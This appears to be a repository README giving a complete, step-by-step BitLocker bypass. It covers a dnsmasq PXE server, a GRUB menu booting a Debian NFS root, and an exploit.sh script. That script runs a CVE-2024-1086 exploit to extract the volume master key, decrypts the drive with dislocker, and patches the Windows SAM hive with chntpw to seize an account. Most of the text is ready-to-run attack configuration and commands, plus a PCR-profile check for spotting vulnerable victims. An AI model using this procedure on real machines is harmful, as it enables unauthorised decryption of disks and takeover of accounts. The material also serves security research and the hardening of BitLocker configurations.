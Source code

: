 # PXE Boot & BitLocker Exploitation

---

## 1. `dnsmasq` Configuration

### `dnsmasq_eth0.conf`

Located at: `/home/edh/dnsmasq_eth0.conf`

```conf
# Specify the interface to listen on
interface=eth0

# Define the DHCP range
dhcp-range=192.13.37.100,192.13.37.150,255.255.255.0,1h
dhcp-option=3,192.13.37.1        # Gateway (static IP of Pi)
dhcp-option=6,8.8.8.8,8.8.4.4    # DNS servers

# Boot file and TFTP server
dhcp-boot=bootmgfw.efi
enable-tftp
tftp-root=/home/edh/pxe_tftp

# Enable DHCP logging
log-dhcp
```

---

## 2. Start `dnsmasq`

### `start_dnsmasq.sh`

```bash
#!/bin/bash
sudo ip link set eth0 up
sleep 2
sudo systemctl restart systemd-networkd
sleep 2
ip a
sudo dnsmasq --no-daemon --conf-file=/home/edh/dnsmasq_eth0.conf --log-dhcp
```

### Launch in a `tmux` session:

```bash
tmux new -s dnsmasq
./start_dnsmasq.sh
```

You should see output like:

```
dnsmasq-dhcp: DHCPDISCOVER(eth0) ...
dnsmasq-dhcp: DHCPOFFER(eth0) 192.13.37.132 ...
dnsmasq-dhcp: DHCPACK(eth0) ...
```

---

## 3. PXE GRUB Menu

### `/home/edh/pxe_tftp/grub/grub.cfg`

```cfg
set default=0
set timeout=5

menuentry "Debian Bookworm (vuln)" {
    linux (tftp,192.13.37.1)/boot/vmlinuz root=/dev/nfs nfsroot=192.13.37.1:/srv/nfs/debian rw ip=dhcp
    initrd (tftp,192.13.37.1)/boot/initrd.img
}
```

---

## 4. NFS Root Filesystem

### Install requirements

```bash
sudo apt install nfs-kernel-server
sudo mkdir -p /srv/nfs/debian
sudo apt install debootstrap qemu-user-static binfmt-support
```

### Bootstrap Debian

```bash
sudo debootstrap --arch=amd64 --foreign bookworm /srv/nfs/debian http://deb.debian.org/debian
sudo cp /usr/bin/qemu-x86_64-static /srv/nfs/debian/usr/bin/
sudo chroot /srv/nfs/debian /bin/bash
```

Inside the chroot:

```bash
/debootstrap/debootstrap --second-stage
```

> ⏳ This may take a few minutes.

---

### Export NFS Root

Edit `/etc/exports` and add:

```bash
/srv/nfs/debian *(rw,sync,no_root_squash,no_subtree_check)
```

Restart the service:

```bash
sudo exportfs -ra
sudo service nfs-kernel-server restart
```

---

## 5. Launch the Exploit on PXE-Booted Target

Once the target PXE boots into Debian, connect to it (e.g., via DHCP IP):

```bash
ssh root@192.13.37.132
```

---

### `exploit.sh`

```bash
file="/root/expl/vmk_data.bin"
echo "[*] Starting CVE-2024-1086 and searching for VMK..."
/root/expl/exploitgood &

# Wait for VMK
while true; do
    if [[ -s "$file" ]]; then
        echo "[*] $file exists and is not empty."
        break
    else
        echo "[W] Waiting for $file to exist and have content..."
    fi
    sleep 5
done

# Mount BitLocker volume
echo "[*] Mounting filesystem with VMK."
target_device=$(fdisk -l | grep "Microsoft basic data" | cut -d " " -f1)
/usr/local/bin/dislocker -v -V $target_device --vmk $file -- /media/bl
/usr/bin/mount /media/bl/dislocker-file /media/blm

# Clean up
rm $file

# Backup and patch SAM
cp /media/blm/Windows/System32/config/SAM /root/expl/hives/SAM.bak.1
/root/expl/chntpw -u 0x3e9 /media/blm/Windows/System32/config/SAM
```

Run the exploit:

```bash
./exploit.sh
```

---

## 6. Check PCR Profile

To verify if a system is vulnerable to this kind of TPM-based VMK extraction, check the PCR Validation Profile:

### Run this on the victim system:

```powershell
manage-bde -protectors -get c:
```

Example vulnerable output:

```text
Volume C: []
All Key Protectors
[...]
 TPM:
 ID: {85825FF8-3733-48D0-B0EE-4D32D8AAFD7A}
 PCR Validation Profile:
 7, 11
 (Uses Secure Boot for integrity validation)
```

### 📌 Important Notes:

- If the PCR profile is exactly `7, 11`, the system is **likely vulnerable**.
- If PCR 4 is included, you are **not affected**.

Source: https://itm4n.github.io/tpm-based-bitlocker/

> If BitLocker is configured **without Secure Boot**, the PCR profile might be:
>
> `0, 2, 4, 11` → ❌ Legacy BIOS Mode → TPM2_PolicyPCR Error `0x00000084`

---
## Directory Layout: `pxe_tftp`

This is the structure of the TFTP root directory used by `dnsmasq` (some files are redundant):

```
pxe_tftp/
├── boot
│   ├── boot.sdi
│   ├── initrd.img
│   └── vmlinuz
├── Boot
│   ├── BCD
│   ├── bootmgfw.efi
│   └── boot.sdi
├── bootmgfw.efi
├── EFI
│   └── Microsoft
│       └── Boot
│           ├── bootmgfw.efi
│           └── boot.stl
├── grub
│   ├── grub.cfg
│   └── grub.cfg.bak
├── grubx64.efi
├── shimx64.efi
└── Sources
    └── boot.wim
```

These files are served over TFTP during the PXE boot process. The GRUB config is at `grub/grub.cfg`, and the kernel/initrd are in the `boot/` directory. Windows boot files are also included under `Boot/` and `EFI/`.


---
## Summary

- PXE boot server using `dnsmasq` serves bootmgr, GRUB, kernel etc over TFTP
- Debian served over NFS for lightweight rootfs
- Exploit drops and monitors VMK dump
- Uses `dislocker` to decrypt BitLocker volume
- `chntpw_mod` used to manipulate the SAM hive

---
